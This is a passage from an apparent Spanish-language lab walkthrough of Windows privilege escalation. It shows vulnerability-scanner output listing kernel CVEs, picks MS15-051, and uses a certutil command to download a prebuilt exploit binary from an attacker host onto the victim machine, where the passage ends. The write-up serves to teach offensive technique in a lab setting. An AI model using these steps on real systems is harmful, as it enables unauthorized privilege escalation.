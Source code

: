 ```cmd
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
```

Vemos que parece ser vulnerable a `MS15-051` y para explotarlo usaremos un repositorio en github, del cual podemos descargarnos un archivo `zip` que contiene el ejecutable.

* [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051)

```bash
❯ ls
 Source   ms15-051.exe   ms15-051x64.exe
```
Procedemos a subirlo a la maquina victima, para ello usaremos `certutil`.

```cmd
certutil.exe -f -urlcache -split http://10.10.16.3/ms15-051x64.exe ms15-051x64.exe
****  Online  ****
  0000  ...
  d800
CertUtil: -URLCache command completed successfully.

dir

    Directory: C:\WIndows\Temp\Priv


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         29/4/2023   7:04 ??      55296 ms15-051x64.exe
```
